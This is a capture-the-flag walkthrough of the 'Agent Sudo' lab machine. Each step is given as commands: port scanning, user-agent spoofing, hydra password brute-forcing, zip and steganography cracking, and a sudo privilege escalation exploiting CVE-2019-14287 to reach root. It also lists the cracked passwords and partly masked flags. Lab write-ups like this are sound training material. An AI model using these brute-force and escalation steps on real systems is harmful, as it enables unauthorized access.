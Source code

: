 # Agent Sudo


- Deploy the machine

	no answer needed

- How many open ports?

	- `nmap <TARGET_IP>`
	- `3`

- How you redirect yourself to a secret page?

	- `user-agent`

- What is the agent name?

	- Let's try changing the user-agent.
	- `curl -A "A" -L <TARGET_IP>`. Mmmmh...
	- `curl -A "C" -L <TARGET_IP>`. Got it.
	- `chris`

- FTP password

	- `hydra -l chris -P /usr/share/wordlists/rockyou.txt <TARGET_IP> -vV -t 4 ftp`
	- `crystal`

- steg password

	- `ftp <TARGET_IP>`
	- Enter username `chris` and password `crystal`.
	- `mget *`
	- By `ToAgentJ.txt` I can understand there is a pic that isn't a photo actually.
	- Infact, `binwalk -e cutie.png` extracts useful data.
	- `cd _cutie.png.extracted`
	- `zip2john 8702.zip > zip.hash`
	- `john zip.hash` and we get the password
	- `7z e zip.hash`, enter `Y` and the password.
	- `cat ToAgentR.txt`
	- Inserting that weird string into CyberChef (from Base64) we get `Area51`.
	- `Area51`

- Zip file password

	- `alien`

- Who is the other agent (in full name)?

	- `steghide info cute-alien.jpg`, enter `y` and the passphrase (`Area51`).
	- There is a message.txt inside
	- `steghide extract -sf cute-alien.jpg`
	- `james`

- SSH password

	- `hackerrules!`

- What is the user flag?

	- `ssh james@<TARGET_IP>` and then enter the password.
	- `cat user_flag.txt`
	- `b0**975e8******041**********13c7`

- What is the incident of the photo called?

	- Enable ssh on your machine
	- `scp Alien_autospy.jpg YOUR-USER-HERE@YOUR-IP-HERE:Alien_autospy.jpg`
	- Search that photo with Google Reverse Image.
	- `Roswell Alien Autopsy`

- CVE number for the escalation (Format: CVE-xxxx-xxxx)

	- `sudo -l`
	- `CVE-2019-14287` ([exploit-db](https://www.exploit-db.com/))

- What is the root flag?

	- `sudo -u \#$((0xffffffff)) /bin/bash`
	- `id`
	- `cat /root/root.txt`
	- `b53**2f55b57******3341**********`
	- `Deskel`






